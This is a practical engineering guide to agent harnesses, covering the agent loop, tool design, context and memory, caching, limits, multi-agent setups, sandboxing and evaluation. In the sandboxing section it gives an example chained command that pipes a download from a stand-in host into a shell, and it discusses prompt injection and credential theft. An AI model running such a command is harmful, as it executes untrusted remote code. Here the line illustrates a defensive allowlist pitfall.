# Building Effective Agent Harness

*A pracrical guide.*

---

# Part I: Harness concepts

---

## 1. What is an agent harness?

A language model on its own is a text-to-text function. It takes a prompt, returns a response, and takes no action in the world. To turn a model into an agent, you need a program around it. The program feeds the model information at the right time and gives it a stable set of actions. It executes those actions, feeds the results back, and repeats until the goal is reached.

<div class="figure">

</div>

That program is the agent harness. Everything a user experiences as "the agent" lives in the harness rather than in the model. The memory, the tool use, the multi-step reasoning, and the ability to keep working through a long task are all harness behavior. Two agents built on the same model behave differently when their harnesses differ.

The model produces each token. The harness decides which tokens the model sees, which actions its output triggers, and what happens as a result. A harness is ordinary software engineering applied to a probabilistic component, in the way that an operating system manages a CPU.

### 1.1 The three layers

Split any harness into three layers before designing it, because each layer fails differently and each rewards a different kind of effort.

| Layer        | What it holds                                                                                                 | Nature        |
| ------------ | ------------------------------------------------------------------------------------------------------------- | ------------- |
| Model        | How intelligence is consumed: the model, the prompts, the inference pattern                                   | Probabilistic |
| Data and API | What the harness reads and calls: internal services, third-party APIs, MCP servers                            | Deterministic |
| Verification | What stops bad output from spreading: evaluation, structured handoffs, rules about passing unverified data on | Mixed         |

The data and API layer is ordinary software engineering, and ordinary tests cover it. The verification layer is the one most teams skip, and skipping it is why a small error in step two becomes a confidently wrong answer in step nine. The model layer carries one warning: the harness around a model changes its cost and its accuracy, so evaluate the model and the harness together, as chapter 10 describes.

### 1.2 How much harness a task needs

Not every task needs the same amount of harness, and the deciding property is how easily you can tell whether the output is correct.

A *hard-verifiable* task carries a built-in feedback signal. Code is the clearest example, because tests pass or fail and the model can iterate against that signal without help. The harness can stay light. A *soft-verifiable* task has no such signal. Filing a tax return is the standard example, because you cannot tell whether it was right until much later. Here the harness has to replace the missing signal, which means more verification, more structure, and more human checkpoints.

Decide which kind of task you have before deciding how much harness to build. A heavy harness on a hard-verifiable task wastes effort. A light one on a soft-verifiable task ships something nobody can trust.

Supporting frameworks: Strands (A.1), AgentCore (A.2), KiroCrew (A.3), Pi (A.4), LangChain (A.5), OpenAI (A.6), Stirrup (A.7).

---

## 2. The core loop

Every agent harness runs a variation of the same loop.

<div class="figure">

</div>

```python
while not done:
    context  = assemble_context(goal, history, retrieved, state)
    response = model(context)
    actions  = parse_tool_calls(response)
    results  = execute(actions)
    history += (response, results)
    done     = check_completion(response, results)
```

The engineering lives inside each of those calls. `assemble_context` decides what goes in, in what order, and what gets cut when the conversation grows long, which matters because the window is finite and every token costs latency and money. The `model` call is one request or a stream, with a model tier, retries, and timeouts you choose. `parse_tool_calls` reads structured JSON from a native tool-calling API or parses freeform text. `execute` runs the action under some set of permissions, inside some boundary, with or without asking the user first. The `history` line keeps turns verbatim, summarizes them, or prunes them selectively. `check_completion` ends the loop, either because the model declared completion, the harness detected it, or a limit forced it.

### 2.1 The loop is not the hard part

The loop above is short, and it works the same way in every framework. The differences between harnesses are in the layer around it, which is context, caching, tools, bounds, isolation, and verification. Spend engineering effort on that layer.

### 2.2 Only two parts are non-deterministic

Inside a harness, two things are probabilistic: context management and evaluation. Everything else is deterministic code.

Tool execution, API calls, state files, permission checks, retries, and cost accounting are deterministic, and ordinary unit tests cover them. Test that majority in the ordinary way, and keep experiments for the two parts that need them.

Supporting frameworks: Strands (A.1), AgentCore (A.2), Pi (A.4), LangChain (A.5), OpenAI (A.6), Stirrup (A.7).

---

## 3. Tools and tool contracts

A tool is any function the harness exposes to the model, such as `read_file`, `run_bash`, `search_web`, or `create_pull_request`. Modern harnesses declare them with JSON schema, because every frontier model has a native tool-calling API.

<div class="figure">

</div>

Good tools share five properties. They are orthogonal, meaning one tool does one thing, because an `edit_file` and a `str_replace` that overlap on most of the same job are worse than either alone. They are named for what they do rather than how they work, so `search_symbols` beats `treesitter_query`. They are descriptive, because the tool description is prompt engineering and needs to state when to use the tool, when not to, and what shape of output to expect. They are failure-tolerant, returning a machine-readable status the model can react to instead of an opaque exception that kills the loop. Finally they are cheap to preview, because read-only tools that are safe and fast let the model explore freely before it commits.

### 3.1 Avoid the god-tool

A common mistake gives a coding agent one `execute_shell` tool. The model then uses `cat` instead of a file reader and `grep` instead of a search tool, and every destructive command goes through the same unrestricted entry point. Purpose-built tools for read, edit, search, and run give the harness one place per action to validate arguments and apply permissions.

### 3.2 The tool-count problem

The opposite mistake is too many tools. MCP, the Model Context Protocol, is a standard for exposing tools to agents over a server interface, and a few connected MCP servers can add hundreds of tool declarations. Every declaration sits in the context window on every turn, whether the model uses it or not. In an [Anthropic example](https://www.anthropic.com/engineering/advanced-tool-use), five MCP servers expose 58 tools whose declarations take about 55,000 tokens before the conversation starts.

Three techniques fix this. Tool search shows the model a short catalog and loads full declarations on demand. Deferred loading keeps a whole bundle of instructions and tools out of the prompt until the model asks for it. Code mode replaces many tool calls with a single `run_code` call, and the model writes a script that calls your functions. The script runs its loop in one round trip, instead of one model turn per call. In the same Anthropic example, tool search cut the tokens spent on tool declarations by 85%.

### 3.3 Skills as tools you do not declare

A *skill* is a folder holding a markdown file of instructions and optional scripts. The harness lists the available skills in the system prompt by name and one-line description, and the model reads the full instructions with an ordinary file-read tool when it decides the skill applies.

[Anthropic documents](https://platform.claude.com/docs/en/agents-and-tools/agent-skills/overview) a cost of about 100 tokens per skill for its name and description, and the full instructions enter the context only when the model reads them. A skill needs no new tool, because the model reads it with a file-read tool that it already has. Add a skill before you add a tool.

Supporting frameworks: Strands (A.1), AgentCore (A.2), KiroCrew (A.3), Pi (A.4), LangChain (A.5), OpenAI (A.6), Stirrup (A.7).

---

## 4. Context management

Context management decides what the model sees on each turn. A 200,000-token window fills quickly with a few long files, the conversation history, and the tool declarations. A full window makes each turn slower and more expensive, and it makes the goal harder for the model to track.

<div class="figure">

</div>

Four kinds of content compete for that window. Static context is the system prompt, holding rules, tone, the tool list, and safety guardrails, and it loads once and stays cheap. Dynamic context is the retrieved material, meaning files, past sessions, and documentation. Working state is the scratchpad of the current run, holding the task list, the files edited so far, subagent results, and the tool call log. Compacted history is everything older, rewritten as a summary.

### 4.1 Retrieval: symbolic beats semantic for code

For code agents, symbolic retrieval usually beats vector search, because a definition and its call sites are more useful than a set of vaguely similar strings. Use a language server or an abstract syntax tree when one is available.

Keyword search still earns its place. BM25, a classic keyword ranking function, beats embeddings whenever the user names an identifier exactly.

### 4.2 Compaction

When history grows past a budget, the harness rewrites older turns into a summary. Done well, compaction preserves the decisions and their reasons and drops the raw tool output. Done badly, it silently drops the reason the agent chose a particular approach and confuses the agent two turns later.

Two details decide which you get. The first is the trigger. Compact when the window passes a fixed fraction, such as 85% full, and not on a turn count, because the size of a turn varies widely. The second is who performs it. Some providers offer server-side compaction, which means the provider rewrites the history and you never pay to send it.

### 4.3 Context offloading

When a tool returns 40,000 tokens of log output, do not put it in the context. Write it to storage, put a short preview and a reference in the context, and let the agent read the full content back if it turns out to need it. Keep the stored artifacts in the session directory when a session exists, so that a resumed session can still reach them. Without a session, a temporary directory that does not outlive the process is enough.

Pair offloading with a hard truncation threshold of about 1,500 tokens per tool result. [AWS reports](https://strandsagents.com/blog/introducing-strands-harness/) that its open-source harness cost 28% less than other harnesses on the same models across six benchmarks, and that three context defaults drove most of the saving. The defaults are this truncation threshold, compaction above 85% of the window, and overflow recovery inside the loop.

### 4.4 Context resets, not only compaction

Compaction keeps a conversation going, but it leaves one failure in place. As the context fills, some models wrap up early and close out work that is not finished. This behavior is called context anxiety. Compaction reduces the pressure, but the window still looks crowded to the model.

A full reset removes the problem. Start each session with a fresh context, and bridge the gap with structured artifacts on disk instead of a summary in the window, as chapter 6 describes. More capable models handle long context well enough that compaction alone is often sufficient. Re-test the need for resets on every model upgrade, as chapter 12 explains.

### 4.5 Overflow recovery

Context overflow will happen, so handle it inside the loop rather than at the edges. When a request overflows, unwind the most recent completed turns, compact, and retry within the same run, so that the run keeps its progress.

### 4.6 Progressive disclosure

Long-form knowledge loads on demand instead of on the first turn. Style guides, playbooks, and API documentation stay in files that the model reads when it needs them. Skills, steering files, and deferred tool bundles apply the same idea. Keep in the context only what the model uses this turn, and leave everything else in files.

Supporting frameworks: Strands (A.1), AgentCore (A.2), Pi (A.4), LangChain (A.5), OpenAI (A.6), Stirrup (A.7).

---

## 5. Prompt caching

Every turn of an agent loop resends almost the same prefix, which is the system prompt, the tool definitions, and the prior conversation. Prompt caching reuses that stable prefix, so each turn costs less and returns sooner. The mechanism is not portable. Some providers require explicit cache points in the request and a flag on the tool definitions. Others cache automatically on the server, and there is nothing to set. Know which kind of provider you are on before you tune anything. Even automatic caching needs a stable key. Derive the key from the session identifier rather than from the request content, so that every request in a long session lands on the same cache.

<div class="figure">

</div>

A cache hit requires an exact prefix match, and four common mistakes break it. A timestamp or random ID in the system prompt breaks it. Tool definitions reordered between turns break it. Retrieved content placed before the static prompt breaks it. History rewritten in place breaks everything after the edit point. Order the context from most stable to least stable: the system prompt, the tool definitions, long-lived memory, the conversation, and then this turn's retrieval. That order decides how much of each request is cacheable at all.

Compaction and caching conflict. Compaction rewrites history, which destroys the cached prefix, so the turn after a compaction is expensive. Compact rarely and in large batches so that you pay the miss once. Where the provider offers server-side compaction, use it, because the provider keeps its own cache consistent.

Supporting frameworks: Strands (A.1), Pi (A.4), OpenAI (A.6).

---

## 6. Memory, durable state, and the session protocol

Memory is an overloaded word. Inside agent harnesses it splits into four useful kinds.

<div class="figure">

</div>

| Kind                   | Lifetime             | Example                                                 |
| ---------------------- | -------------------- | ------------------------------------------------------- |
| Working                | Current turn         | The current tool call and its result                    |
| Session                | Current conversation | The whole task, from prompt to completion               |
| Episodic               | Across sessions      | "Last Tuesday you fixed a similar bug in `parser.py`"   |
| Semantic or procedural | Permanent            | Coding conventions, project structure, user preferences |

Most harnesses handle working and session memory, because both are the conversation buffer. Fewer handle episodic memory, which is what lets an agent improve on a codebase over time. The usual mechanism is a project instruction file that every session reads, such as `AGENTS.md`, plus a store of corrections that the agent writes back.

### 6.1 The one question that matters

Ask one question of any memory design: can the user read it and edit it?

Opaque memory that only the agent reads and writes accumulates wrong beliefs and is hard to debug. File-backed memory carries a second advantage, which is that it survives a process restart, a machine reboot, and a framework upgrade, because it is a file.

### 6.2 The repository is the system of record

Anything the agent cannot reach in context does not exist for the agent. The rest of this chapter and chapter 13 build on this rule.

A decision made in a chat thread, an architectural pattern that lives in one engineer's head, and product context that only the product manager knows are all invisible to the agent. Push them into the repository, because the repository is the only thing every session reliably sees. A decision that nobody writes down is a decision that the agent never learns.

### 6.3 Keep the instruction file a map, not an encyclopedia

`AGENTS.md` and its equivalents grow without limit unless someone prunes them. Keep the top-level file short, somewhere near 100 lines, and use it as a table of contents pointing into a structured `docs/` directory.

Two failure modes drive the rule. A long instruction file crowds out the actual task, and it also rots, because nobody reviews hundreds of lines of accumulated advice. The structure you want is progressive disclosure again, where the agent starts from a small stable entry point and learns where to look for depth.

### 6.4 Durable state on disk

The context window lasts for one session, so anything that must outlive a session goes to disk. Section 6.2 gave the principle, and five artifacts carry it out.

| Artifact              | Format    | Purpose                                                                    |
| --------------------- | --------- | -------------------------------------------------------------------------- |
| Task list             | JSON      | The single source of truth for what is done and what remains               |
| Progress notes        | Free text | What happened last session, bugs found, decisions made, what is next       |
| Plan or specification | Markdown  | The original requirements, kept in the project directory                   |
| Setup script          | Shell     | Automates environment setup so the agent spends no context on installation |
| Git history           | Commits   | Descriptive commits that let the agent reconstruct what changed            |

The format of the task list is a real decision. A markdown checklist invites the model to rewrite, reorder, and quietly drop items, and JSON with a fixed schema resists that. Add two rules and enforce them in code where you can: never remove or reorder an item, and only flip a status from incomplete to complete. The agent then reports against the task list instead of editing it. The setup script matters for a less obvious reason. Without it, every session spends hundreds of tokens working out how to install dependencies and start a server. With it, that cost is one tool call.

### 6.5 The session protocol

Every session follows the same protocol, because a predictable session is a recoverable one. The session orients by reading the progress notes, the task list, and recent git history. It runs the setup script, and it tests that existing behavior still works before it touches anything new. It then picks the single highest-priority incomplete task, implements it, and tests it through the real interface. It closes by marking the task complete, committing with a descriptive message, writing progress notes, and leaving the application in a working state. The baseline test is the step teams skip, and the cost of skipping it compounds without a signal. A previous session can leave a broken build, and a session that builds on top of it produces two failures that nobody can attribute.

One task per session keeps the context from running out, keeps the session focused, and makes failure cheap, because a failed session loses one task instead of six. Treat it as a dial. Relax it as the agent proves reliable, and tighten it the moment quality drops.

Use git to make every session recoverable. Commit after every completed task and tag known-good states. When a session leaves the codebase broken, you choose between a hard reset to the last tag followed by a re-run, and prompts that rescue the current state. Both are legitimate, and the tag is what gives you the choice. Last, regenerate the task list periodically by having the agent compare the codebase against the specification. The codebase and the requirements drift, and an agent follows a stale plan with full confidence.

### 6.6 Session resumption

Session memory that outlives the process needs a session identifier and somewhere to put state. Resuming a session means loading its history, its offloaded artifacts, and its working state by that identifier, and a workspace snapshot does the same for files. If your agent runs for hours you need this. If it runs for a minute you do not.

Supporting frameworks: Strands (A.1), AgentCore (A.2), KiroCrew (A.3), Pi (A.4), LangChain (A.5), OpenAI (A.6).

---

## 7. Termination and bounds

Decide how the loop ends, and what a run can consume, before you ship the agent.

<div class="figure">

</div>

### 7.1 How the loop ends

Three mechanisms exist, and a harness uses all three. The model can declare completion by calling a `finish` tool. The harness can detect completion, because the model returned text with no tool calls and there is nothing left to execute. Or a limit fires, such as a maximum number of turns.

A `finish` tool beats the no-tool-calls rule for one reason. It gives the model somewhere to state what it accomplished and which files it produced. Give its parameters a reason string and a list of output paths, and let the harness copy those paths out of the execution environment.

### 7.2 What to bound

Bound the turn count so the loop cannot run forever, and the tool call count so a single turn cannot fan out to a thousand calls. Bound the context size so a request cannot exceed the model's window, and bound output tokens per response separately from that context budget. Bound the tool timeout so one hung command cannot stall the run, bound cost per session and enforce it rather than estimating it, and bound recursion depth if subagents can spawn subagents.

The output token bound needs care. Keep the response budget separate from the context budget, and reject a response budget that exceeds the window. When a response hits its budget, abort the run rather than retry it. A silent retry on a too-small response budget burns money and produces nothing.

### 7.3 Human confirmation

Put a checkpoint on destructive actions rather than on every read. A modal on every file read trains the user to click through everything, which defeats the purpose. Interrupt on named tools and offer approve, edit, or reject. The edit option matters, because the user can fix a bad argument instead of only blocking the call.

Supporting frameworks: AgentCore (A.2), KiroCrew (A.3), LangChain (A.5), OpenAI (A.6), Stirrup (A.7).

---

## 8. Multi-agent orchestration

Start with one agent and one loop, and add a second agent only when the first hits a ceiling you can name. A multi-agent system carries the complexity of a microservice architecture plus non-determinism. You inherit the distributed-systems failures and lose the ability to reproduce them. A single loop handles one task, and most work fits inside that.

<div class="figure">

</div>

The first pattern to add is subagent dispatch. The main agent hands a scoped subtask to a subagent, which runs in its own context and returns a compact result. Ask a subagent where authentication lives in a codebase, and it absorbs the search noise while the main agent sees only the answer. Two details decide whether dispatch holds up. If the subagent produces files, the parent needs an execution environment for them to land in. The transfer must also report every file that failed, so the parent never relies on one that did not arrive. Subagents can call subagents, so bound the depth.

Once subagents exist, treat the main context as a scheduler rather than a workspace. Filesystem search, code analysis, test runs, and summarization go to subagents, and each returns a summary instead of raw output. The main context keeps the plan, the decisions, and the results. Load the plan and the specification on every iteration, so the agent reasons from a fixed foundation rather than from whatever survived the last compaction. Instruct the agent to search before it implements anything. Code search is non-deterministic and a miss looks the same as an absence, so an agent that skips the search writes a second copy of code you already have.

Parallelism is asymmetric. Fan out reads aggressively, because ten parallel searches cost ten cheap calls and finish in the time of the slowest. Keep write concurrency low, because parallel builds, test runs, and file edits compete for the same resources and corrupt each other's state. A small write concurrency usually finishes sooner end to end than a large one.

When one loop stops being enough, split the work into three roles. A planner expands a short prompt into a specification, which prevents building the wrong thing. A generator implements one feature at a time against that specification, which prevents doing everything at once. An evaluator tests the running system the way a user does and grades it against criteria, which stops the agent from marking broken work complete. Keep the planner at the level of product context and high-level design. A plan that specifies implementation up front locks in decisions made with the least information you will ever have, and every downstream step inherits the errors. Section 10 explains why the evaluator earns its cost.

The handoff between roles is where a multi-agent system loses fidelity. Define the handoff payload as a schema rather than prose, and enforce one rule at every boundary: unverified data does not pass downstream. If the planner invents a requirement and the handoff carries it forward, the generator spends a full session on work nobody asked for. A check at the boundary costs far less than that session.

Graph orchestration models the flow as nodes, conditional edges, and a typed state object. It earns its complexity when the flow is a real state machine with states you can name. It also earns it when you need checkpoints, resumable runs, or human approval at fixed points. It is the wrong shape for most tasks, which are one loop with tool calls. Do not use a graph to improve accuracy. In [AWS measurements](https://strandsagents.com/blog/steering-accuracy-beats-prompts-workflows/) of 600 runs per approach, hooks that correct the model during a run passed 100% of cases, against 80.8% for a graph workflow and 82.5% for prompt instructions.

Critique is a low-cost quality check. After the agent produces an answer, a second pass grades it against a rubric and can trigger a fix. Run the critic in a fresh context that holds only the artifact and the rubric, because a critic that shares the author's context shares the author's blind spots. When agents run in different processes or belong to different teams, an in-process call no longer works. Treat the agent-to-agent protocol as a service boundary and give it the same care as any other remote call.

Grow the system in the order the symptoms appear. Add subagents when exploration noise fills the main context. Add an evaluator when the agent marks broken work complete, and a planner when it builds the wrong thing from a short prompt. Add parallel fan-out when latency is the problem and the work splits cleanly. Add a graph when you need resumability or approval gates, and a network protocol only when the agents cannot share a process.

Supporting frameworks: Strands (A.1), AgentCore (A.2), KiroCrew (A.3), LangChain (A.5), OpenAI (A.6), Stirrup (A.7).

---

## 9. Sandboxing and isolation

An agent that can run shell commands can delete your work, leak your credentials, and send your source code to an outside service. Treat sandboxing as a requirement, and start the design by naming the threats, because each one needs its own control. Mistakes, such as `rm -rf` on the wrong path, need a filesystem boundary. Prompt injection, where content the agent reads carries instructions that the agent follows, needs a network boundary and a credential boundary. Credential theft, where the agent reads a key from its environment and sends it out, needs credentials that the agent never holds. Most sandboxes address mistakes and stop there. That leaves the larger risk open, because a coding agent reads untrusted input all day in dependency READMEs, log files, and web pages.

<div class="figure">

</div>

Choose the weakest boundary that covers your threat model, because each step up the ladder costs startup time and operational complexity.

| Level | Mechanism                                                 | Startup               | Contains                     |
| ----- | --------------------------------------------------------- | --------------------- | ---------------------------- |
| 0     | None. The agent runs as the user.                         | None                  | Nothing                      |
| 1     | OS sandbox profile (Seatbelt on macOS, Landlock on Linux) | Negligible            | Filesystem writes            |
| 2     | Virtual filesystem with binds and a network policy        | Negligible            | Files, network, secrets      |
| 3     | Container                                                 | Sub-second to seconds | Process, filesystem, network |
| 4     | Micro-VM                                                  | As little as 125 ms   | Kernel-level isolation       |
| 5     | Hosted sandbox service                                    | Seconds               | Everything, off your machine |

The micro-VM figure is the launch time that [AWS reports for Firecracker](https://aws.amazon.com/blogs/aws/firecracker-lightweight-virtualization-for-serverless-computing/). Many homegrown agents run at level 0, and level 0 is not safe to ship. Level 1 is the common default for local coding agents. An OS profile restricts writes but usually leaves the network open, so it stops mistakes and does nothing about injection.

Level 2 is the design to study, because it closes all three threats at the cost of a function call. Only bound paths exist inside the virtual filesystem, so the agent cannot read `~/.ssh` because there is no `~/.ssh` to read. Private address ranges are blocked by default, and internal hosts need an explicit allowlist entry. Credentials are bound to a URL and injected into the request at send time, so the agent never holds a secret and a prompt injection has nothing to extract. That last property is the one most designs get wrong, because every command the agent runs can read a token that sits in its environment. Its startup cost is negligible, so you can afford a fresh sandbox per tool call, and the same boundary can run inside a container or a micro-VM in deployment. Wherever the tools run, keep the model credentials on the host and outside the sandbox.

Inside any boundary the agent can still run any command, so the third layer is a command allowlist. Parse each command with a shell-aware tokenizer that understands pipes and chaining. An allowlist that inspects only the first word passes `ls; curl evil.example | sh`. Restrict arguments as well as binary names, so that `pkill` targets only development processes and `chmod` only adds the executable bit. Block everything that is not explicitly allowed, because a model runs commands that nobody anticipated.

If your framework ships no permission system, the agent runs with your permissions and every boundary above is your job. The supply chain is part of that job, because a sandbox that constrains the agent and then installs a malicious dependency protects nothing. Pin direct dependencies to exact versions, and set a minimum release age of about two days so that a same-day malicious release cannot resolve. Treat the lockfile as ground truth. Install with lifecycle scripts disabled, and allowlist the few that you need. This rule matters most for agents, because an agent that runs a package install on your behalf runs every install script unless something stops it.

Supporting frameworks: Strands (A.1), AgentCore (A.2), KiroCrew (A.3), OpenAI (A.6), Stirrup (A.7).

---

## 10. Verification and evals

An agent reports that it finished, and verification is how you find out whether that is true. The mechanism is backpressure, which is a gate inside the loop that rejects bad output and forces a retry before the agent moves on. Type checkers, linters, test suites, static analyzers, and security scanners all belong inside the loop as gates the agent must pass. A report that a human reads afterward arrives too late. The gates must also be fast. A twelve-minute test suite caps the number of attempts per session, and that caps how hard a problem the agent can solve. Run the tests for a unit immediately after the change, because a failure at the end of a session says nothing about which change caused it.

<div class="figure">

</div>

Unit tests are not enough, because agents mark features complete that no user can reach. Give the agent browser or API automation and require it to use the running system: navigate, fill the form, take a screenshot, and read the response. This catches the bug that passes every backend test.

Agents grade their own work too generously, and they do it consistently enough that you design around it instead of prompting against it. Run a separate evaluator with its own context, whose only job is to grade output against criteria and return concrete feedback. You can tune a standalone evaluator toward skepticism. You cannot make a generator critical of its own work. The evaluator earns its cost only when the task sits at or beyond the edge of what the generator does alone. For work well inside the model's ability it is overhead, so decide per workload.

Never ask an evaluator whether output is good. Give it criteria it can score and a definition of good for each one. Add few-shot examples with score breakdowns, so that it is calibrated rather than guessing a scale, and a hard threshold that fails the work. Weight the criteria toward where the model is weakest, such as design originality, completeness, and edge cases. Models already produce code that compiles and passes basic tests, so a rubric weighted there always passes. For work too large for one pass, have the generator and the evaluator agree on what finished means before any code exists. The generator proposes what it will build and how success will be tested, and the evaluator approves the proposal first. That contract closes the gap between a high-level specification and a testable unit of work, which is where most ambiguous failures start.

Rules in a document are suggestions, and rules in a linter are rules. Encode architectural invariants as lint rules, structural tests, and CI gates, so that each rule applies everywhere at once in a codebase the agent writes. Put the remediation in the error message. A message that names the correct pattern lets the agent fix the violation without a human, and a message that says only "architectural violation" sends it guessing.

